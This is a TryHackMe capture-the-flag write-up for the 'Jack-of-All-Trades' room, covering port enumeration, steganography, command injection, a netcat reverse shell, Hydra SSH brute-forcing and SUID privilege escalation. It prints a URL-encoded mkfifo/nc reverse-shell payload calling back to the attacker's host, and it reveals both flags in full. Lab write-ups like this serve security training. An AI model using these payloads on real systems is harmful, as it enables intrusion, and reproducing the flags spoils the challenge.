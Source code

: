 # TryHackMe - Jack-of-All-Trades Write-Up

## 📌 Room Context
- Difficulty: Medium  
- Style: Boot-to-Root  
- Original Event: **Securi-Tay 2020**  
- Skills Tested: Enumeration, encoding/decoding, steganography, brute-forcing, reverse shells, privilege escalation  

---

## 🔎 1. Enumeration

### Nmap Scan
```bash
nmap -sV ip
````
Results:

    Port 22/tcp → Apache (HTTP)

    Port 80/tcp → OpenSSH

👉 Services swapped: web runs on port 22, SSH on port 80.
Accessing Web Service

Firefox blocks HTTP on port 22.
Fix:

    Go to about:config.

    Add 22 to network.security.ports.banned.override.

    Visit:

Always show details

    http://10.10.115.169:22

### 2. Web Enumeration

    Source code → /recovery.php.

    Contains encoded hints: Base32 → Hex → ROT13 and Base64.

    Reveal:

        Password clue.

        Credentials hidden in header.jpg.

### 3. Steganography

Download image:

Always show details

wget http://10.10.115.169:22/header.jpg

Extract hidden file:

Always show details

steghide extract -sf header.jpg

Found cms.creds with username & password.
###💻 4. Initial Foothold

Login at /recovery.php.
Discovered command injection at ?cmd=.

Test:

Always show details

http://10.10.115.169:22/nnxhweOV/?cmd=id

### 5. Reverse Shell

Start listener:

Always show details

nc -lvnp 4444

Payload (URL-encoded):

Always show details

http://10.10.115.169:22/nnxhweOV/?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.9.0.185%204444%20>%20/tmp/f

Got shell → upgraded with:

Always show details

python3 -c 'import pty; pty.spawn("/bin/bash")'

### 6. User Flag

Found password list in /home/jack/.
Brute-forced SSH on port 80:

Always show details

hydra -l jack -P passwords.txt ssh://10.10.115.169:80

Logged in → user flag inside user.jpg:

move user.jpg to your machine

flag: securi-tay2020_{********************}

### Root Flag

Check SUID binaries:

Always show details

find / -perm -4000 -type f 2>/dev/null

Found /usr/bin/strings.
Read root flag:

Always show details

strings /root/root.txt

Root flag:

Always show details

securi-tay2020_{*****************}

🎯 8. Summary

    Enumeration: Odd ports → HTTP on 22, SSH on 80.

    Exploitation: Encoded hints, stego, CMS creds.

    Foothold: Command injection → reverse shell.

    User: Hydra brute-force SSH.

    Root: Abused SUID strings.

Flags

    User: securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}

    Root: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}

✅ Challenge complete — machine fully compromised.
